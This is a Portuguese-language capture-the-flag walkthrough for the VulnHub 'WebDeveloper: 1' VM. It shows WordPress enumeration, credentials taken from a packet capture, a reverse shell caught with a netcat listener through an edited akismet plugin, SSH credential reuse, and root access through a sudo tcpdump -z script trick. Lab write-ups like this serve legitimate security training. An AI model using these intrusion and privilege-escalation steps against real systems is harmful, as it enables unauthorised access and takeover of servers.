





# WebDeveloper: 1

Location: [vulnhub.com](vulnhub.com)  
Dificuldade: Easy

## Identificação e Enumeração
O primeiro passo foi identificar o IP da VM:
```bash
\# netdiscover -r 192.168.0.1/24
```
O IP identificado foi 192.168.0.108. Fazendo um portscan simples com o nmap podemos ver que as portas 22 e 80 estão abertas, rodando SSH e HTTP, respectivamente:
```bash
\# nmap -sV -sT -p- 192.168.0.108
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

Na porta 80 está rodando um blog feito em wordpress, sem muitas informações úteis à vista, mas executando o wpscan - que já mostra versões dos plugins e temas, vulnerabilidades e usuários - obtém-se alguns dados:
```bash 
$ wpscan --url http://192.168.0.108 -e ap,u
(...)
[!] 7 vulnerabilities identified:
(...)
[+] Enumerating All Plugins

[i] No plugins Found.

[+] Enumerating Users
 Brute Forcing Author IDs - Time: 00:00:00 <==> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] webdeveloper
(...)
``` 
Algumas vulnerabilidades e um usuário encontrado, porém sem senha, continuando a enumeração com dirb:
```bash
$ dirb http://192.168.0.108 /usr/share/dirb/wordlists/big.txt

==> DIRECTORY: http://192.168.0.108/ipdata/                                
+ http://192.168.0.108/server-status (CODE:403|SIZE:301)                   
==> DIRECTORY: http://192.168.0.108/wp-admin/                              
==> DIRECTORY: http://192.168.0.108/wp-content/                            
==> DIRECTORY: http://192.168.0.108/wp-includes/
```
o diretório /ipdata/ e mais alguns diretórios padrões do wordpress, se acessarmos o diretório /ipdata/ conseguimos encontrar um arquivo chamado analyze.cap


Como é uma captura de pacotes, podemos olhar o tráfego com wireshark e procurar alguma informação importante. Como a informação que queria era uma senha ou algo que levasse a senha, organizei os pacotes por protocolo e vi que foi feito uma requisição via POST em /wp-login.php 

Olhando os detalhes dessa requisição vemos os parâmetros passados, que são justamente usuario e senha.


## Exploração
A senha está encodada, pois contém caracteres especiais, mas é facilmente decodada em qualquer ferramenta de urlencode na internet, depois de decodificá-la temos que encontrar um meio de ter acesso a uma webshell. Olhando alguns arquivos, vi que eu poderia editar a página index.php do plugin akismet, esse plugin estava desativado, então depois editar a página era necessário ativá-la na aba Plugin do wordpress:
Obs.: Substituir o IP pelo seu


E no seu computador abrir a porta 1234
```bash
$ nc -vvnlp 1234
```

Os plugins do wordpress ficam na url: http://192.168.0.108/wp-content/plugins/
Então para acessar a index.php do akismet, basta acessar a página:
http://192.168.0.108/wp-content/plugins/akismet/index.php
Ao acessar você deve ganhar uma shell com o bash, tendo acesso aos arquivos do server
```bash
$ nc -vvnlp 1234
Listening on any address 1234 (search-agent)
Connection from 192.168.0.108:50532
bash: cannot set terminal process group (1131): Inappropriate ioctl for device
bash: no job control in this shell
www-data@webdeveloper:/var/www/html/wp-content/plugins/akismet$
```
Entrando na /home/webdeveloper não tem nenhum arquivo importante, mas voltando a estrutura do wordpress, se acessarmos o arquivo wp-config.php podemos ver a senha e login do banco de dados



Se tentarmos acessar o banco de dados com essa shell, obteremos um erro, então resolvi tentar essas mesmas credenciais para fazer login via SSH
```bash
$ ssh webdeveloper@192.168.0.108
webdeveloper@192.168.0.108\'s password:
webdeveloper@webdeveloper:~$ 
```
E temos o nosso login ssh, mas ainda sem encontrar a flag, pois ela está em /root e ainda estamos logados com o usuário 'webdeveloper'.

## PrivEsc
Rodei o LinEnum que não me deu muitas informações importantes, então vi quais programas eu poderia executar de acordo com o sudoers
```bash
$ sudo -l
Matching Defaults entries for webdeveloper on webdeveloper:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webdeveloper may run the following commands on webdeveloper:
    (root) /usr/sbin/tcpdump
```
Sabendo que o tcpdump pode nos permitir escalar privilégios, procurei formas de fazê-lo e encontrei isso [aqui](https://github.com/xapax/security/blob/master/privilege_escalation_-_linux.md)

então segui os passos:
```bash
$ echo $'id\ncat /root/flag.txt' > /tmp/.test
$ chmod +x /tmp/.test
$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
uid=0(root) gid=0(root) groups=0(root)
Congratulations here is youre flag:
cba045a5a4f26f1cd8d7be9a5c2b1b34f6c5d290
```
E aí está a flag!!
